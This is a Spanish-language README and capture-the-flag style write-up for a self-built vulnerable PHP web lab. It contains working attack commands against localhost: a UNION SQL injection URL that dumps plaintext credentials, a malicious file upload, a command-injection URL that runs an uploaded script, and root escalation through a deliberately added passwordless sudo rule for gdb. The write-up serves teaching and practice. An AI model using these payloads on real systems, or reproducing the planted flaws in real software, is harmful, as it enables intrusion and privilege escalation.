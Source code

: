## **PASOS A SEGUIR:**
1.descargar zip  
2.extraerlo  
3.poner los archivos en home de user1  
4.abrir una terminal  
5. HACER:  
 ```bash
chmod +x setup_OVA.sh  
./setup_OVA.sh  
  
chmod +x automatizado.sh  
./automatizado.sh <<IP>> <<PUERTO>>  
 ```


---

## **Write-up: Explotación de Sistema Vulnerable con RCE y Elevación de Privilegios usando GDB**

### **Descripción del Sistema**
Este sistema web vulnerable, desarrollado en PHP, tiene un fallo de seguridad que permite la ejecución remota de código (RCE). El sistema utiliza Apache como servidor web y se ejecuta bajo el usuario `www-data`. Este fallo permite a un atacante con acceso a la aplicación web escalar privilegios y acceder a dos *flags* escondidas en:

1. **Flag de usuario**: `/home/www-data/user.txt`
2. **Flag de root**: `/root/root.txt`

El exploit aprovecha inyecciones SQL, subida de archivos maliciosos y escalación de privilegios usando **gtfobins** con `gdb`.

---

## **1. Configuración del Sistema Vulnerable**

### **Archivos Utilizados**
1. **`setup_ova.sh`**:
   Este script configura el entorno vulnerable, automatizando la instalación de software y la creación de vulnerabilidades necesarias para la explotación.

   #### **Proceso de Configuración Automatizada**
   El script realiza las siguientes acciones clave:
   - **Instalación de Apache y PHP**: Configura el servidor web Apache y el intérprete PHP, necesarios para ejecutar la aplicación web.
   - **Configuración de MySQL**:
     - Crea la base de datos `ssi`.
     - Añade múltiples tablas relacionadas con usuarios, administradores, imágenes y eventos.
     - Inserta datos predeterminados, incluyendo un administrador inicial con credenciales almacenadas directamente en la base de datos.
   - **Despliegue de la Aplicación**:
     - Extrae un archivo ZIP (`final.zip`) con los archivos web y los despliega en `/var/www/html/web`.
     - Configura permisos para asegurar que el servidor Apache (`www-data`) pueda leer y ejecutar los archivos.
   - **Configuración de GDB para Escalación de Privilegios**:
     - Ajusta los permisos de `gdb` mediante el archivo `sudoers`, permitiendo que el usuario `www-data` ejecute este binario como root sin contraseña.

   #### **Instrucciones de Uso**:
   Ejecutar el script como root:
   ```bash
   chmod +x setup_ova.sh
   ./setup_ova.sh
   ```

2. **`automatizado.sh`**:
   Este script automatiza el proceso de explotación, realizando todos los pasos necesarios, desde la inyección SQL hasta la extracción de las *flags*. Diseñado para ahorrar tiempo, simplifica el ataque para evitar realizar comandos manuales.

   #### **Acciones Automatizadas**
   - Realiza la inyección SQL para extraer credenciales.
   - Se autentica automáticamente como administrador en el sistema.
   - Sube el archivo malicioso `gdb.sh` al servidor.
   - Ejecuta comandos en el servidor remoto para explotar la vulnerabilidad RCE.
   - Escala privilegios con `gdb` y lee las *flags*.

   #### **Instrucciones de Uso**:
   Ejecutar el script directamente:
   ```bash
   chmod +x automatizado.sh
   ./automatizado.sh
   ```

   Durante la ejecución, el script muestra las acciones realizadas y los resultados, incluyendo el contenido de las *flags*.

---

## **2. Explotación**

### **Paso 1: Inyección SQL**
La vulnerabilidad en `rover_id` permite inyección SQL para extraer credenciales. Por ejemplo:
```bash
http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=' UNION SELECT 1, 2, contrasena, gmail, 5 FROM final_usuarios--
```

#### **Objetivo**:
Extraer las credenciales del administrador, incluyendo:
- **Correo electrónico (`gmail`)**: Para el login.
- **Contraseña (`contrasena`)**: En texto plano.

#### **Automatización**:
El script `automatizado.sh` realiza esta extracción utilizando `curl` y formatea la salida con `jq`.

---

### **Paso 2: Acceso como Administrador**
Con las credenciales obtenidas, autenticarse en el sistema:
```bash 
curl -X POST \
     -d "email=admin@gmail.com" \
     -d "contrasena=admin123" \
     -d "es_administrador=on" \
     -c cookies.txt \
     "http://localhost/web/final/dashmin/login.php"
```

Esto almacena las cookies de sesión en `cookies.txt`, lo que permite acciones autenticadas.

---

### **Paso 3: Subida de Archivo Malicioso**
Como administrador, la funcionalidad de subida de imágenes permite cargar un script malicioso (`gdb.sh`):
```bash
curl -X POST \
     -F "profile_picture=@gdb.sh" \
     "http://localhost/web/final/dashmin/upload.php"
```

El archivo se guarda en el directorio `uploads/` del servidor.

---

### **Paso 4: Ejecución del Script Malicioso**
Usando otra vulnerabilidad en el servidor (RCE), ejecutamos `gdb.sh`:
```bash
curl -s -b cookies.txt \
"http://localhost/web/final/dashmin/list_uploads.php?comando=chmod%20744%20uploads/gdb.sh;./uploads/gdb.sh"
```

Este comando:
1. Cambia permisos del script a ejecutables.
2. Lo ejecuta, escalando privilegios a root.

---

### **Paso 5: Captura de las Flags**
1. **Flag de Usuario**:
   El script accede al archivo `/home/www-data/user.txt`:
   ```bash
   curl -s -b cookies.txt \
   "http://localhost/web/final/dashmin/list_uploads.php?comando=cat%20/home/www-data/user.txt"
   ```

2. **Flag de Root**:
   Con `gdb`, se lee `/root/root.txt`:
   ```bash
   ./uploads/gdb.sh
   ```

El contenido de ambas *flags* se muestra en la salida.

---
